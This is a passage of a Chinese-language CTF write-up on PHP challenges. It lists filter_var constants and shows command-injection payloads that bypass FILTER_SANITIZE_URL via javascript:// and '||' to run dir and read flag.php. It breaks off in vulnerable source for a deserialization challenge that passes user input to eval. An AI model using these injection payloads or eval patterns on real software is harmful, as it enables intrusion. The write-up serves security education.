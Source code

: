 

常见的过滤器:

- FILTER_CALLBACK：调用用户自定义函数来过滤数据。
- FILTER_SANITIZE_STRING：去除标签，去除或编码特殊字符。
- FILTER_SANITIZE_STRIPPED：”string” 过滤器的别名。
- FILTER_SANITIZE_ENCODED：URL-encode 字符串，去除或编码特殊字符。
- FILTER_SANITIZE_SPECIAL_CHARS：HTML 转义字符 ‘”<>& 以及 ASCII 值小于 32 的字符。
- FILTER_SANITIZE_EMAIL：删除所有字符，除了字母、数字以及 !#$%&’*+-/=?^_{|}~@.[]
- FILTER_SANITIZE_URL：删除所有字符，除了字母、数字以及 $-_.+!*'(),{}|\^~[]<>#%”;/?😡&=
- FILTER_SANITIZE_NUMBER_INT：删除所有字符，除了数字和 +-
- FILTER_SANITIZE_NUMBER_FLOAT：删除所有字符，除了数字、+- 以及 .,eE。
- FILTER_SANITIZE_MAGIC_QUOTES：应用 addslashes()。
- FILTER_UNSAFE_RAW：不进行任何过滤，去除或编码特殊字符。
- FILTER_VALIDATE_INT：在指定的范围以整数验证值。
- FILTER_VALIDATE_BOOLEAN：如果是 “1”, “true”, “on” 以及 “yes”，则返回 true，如果是 “0”, “false”, “off”, “no” 以及 “”，则返回 false。否则返回 NULL。
- FILTER_VALIDATE_FLOAT：以浮点数验证值。
- FILTER_VALIDATE_REGEXP：根据 regexp，兼容 Perl 的正则表达式来验证值。
- FILTER_VALIDATE_URL：把值作为 URL 来验证。
- FILTER_VALIDATE_EMAIL：把值作为 e-mail 来验证。
- FILTER_VALIDATE_IP：把值作为 IP 地址来验证。



绕过`FILTER_SANITIZE_URL`直接用`javascript://`协议绕过

preg_match这个简单，只需要在末尾跟上`sec-redclub.com`即可

然后就是闭合双引号，实现命令执行

payload：

```
javascript://123"||dir||"sec-redclub.com
javascript://123"||type=flag.php>1.txt||"sec-redclub.com
```

## babyserialize

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever;
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
```